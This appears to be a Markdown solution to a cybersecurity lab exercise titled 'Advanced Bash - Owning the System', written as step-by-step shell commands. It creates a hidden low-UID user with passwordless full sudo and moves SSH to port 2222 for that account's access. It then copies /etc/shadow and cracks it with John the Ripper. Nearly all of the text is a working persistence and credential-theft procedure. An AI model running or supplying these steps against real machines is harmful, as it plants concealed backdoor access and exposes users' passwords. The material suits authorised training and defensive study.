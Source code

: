 # Advanced Bash - Owning the System
## Step 1: Shadow People
1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
```
sudo adduser --no-create-home sysd
```
2.	Give your secret user a password:
```
sudo passwd sysd
```
3.	Give your secret user a system UID < 1000:
```
sudo usermod -u 227 sysd
```
4.	Give your secret user the same GID:
```
sudo groupmod -g 227 sysd
```
5.	Give your secret user full sudo access without the need for a password:
```
sudo visudo
```
```
sysd ALL=(ALL:ALL) NOPASSWD=ALL
```
6.	Test that sudo access works without your password:
```
sudo -l
sudo adduser tester
sudo cat /etc/shadow
```
***
## Step 2: Smooth Sailing
1.	Edit the sshd_config file:
```
sudo nano /etc/ssh/sshd_config
```
```
Port 2222
```
***
## Step 3: Testing Your Configuration Update
1.	Restart the SSH service:
```
sudo systemctl restart ssh.service
```
2.	Exit the root account:
```
exit 
```
3.	SSH to the target machine using your sysd account and port 2222:
```
ssh sysd@192.168.6.105 -p 2222
```
4.	Use sudo to switch to the root user:
```
sudo su
```
***
## Step 4: Crack All the Passwords
1.	SSH back to the system using your sysd account and port 2222:
```
ssh sysd@192.168.6.105 -p 2222
```
2.	Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
```
sudo su
```
```
cp /etc/shadow /
```
```
john shadow --wordlist=/usr/share/john/password
```